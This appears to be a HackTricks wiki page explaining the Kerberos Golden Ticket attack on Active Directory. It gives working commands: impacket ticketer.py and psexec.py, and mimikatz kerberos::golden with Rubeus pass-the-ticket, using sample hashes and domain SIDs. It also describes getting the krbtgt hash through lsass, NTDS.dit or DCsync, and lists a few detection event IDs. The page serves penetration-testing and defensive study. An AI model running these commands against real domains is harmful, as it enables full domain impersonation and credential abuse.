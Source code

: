 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Golden ticket

A valid **TGT as any user** can be created **using the NTLM hash of the krbtgt AD account**. The advantage of forging a TGT instead of TGS is being **able to access any service** (or machine) in the domain and the impersonated user.

The **krbtgt** account **NTLM hash** can be **obtained** from the **lsass process** or from the **NTDS.dit file** of any DC in the domain. It is also possible to get that NTLM through a **DCsync attack**, which can be performed either with the [lsadump::dcsync](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-lsadump) module of Mimikatz or the impacket example [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py). Usually, **domain admin privileges or similar are required**, no matter what technique is used.

{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="From Windows" %}
```bash
mimikatz # kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory
```
{% endcode %}

**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

## Mitigation

Golden ticket events ID:

* 4624: Account Logon
* 4672: Admin Logon
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

[**More information about Golden Ticket in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


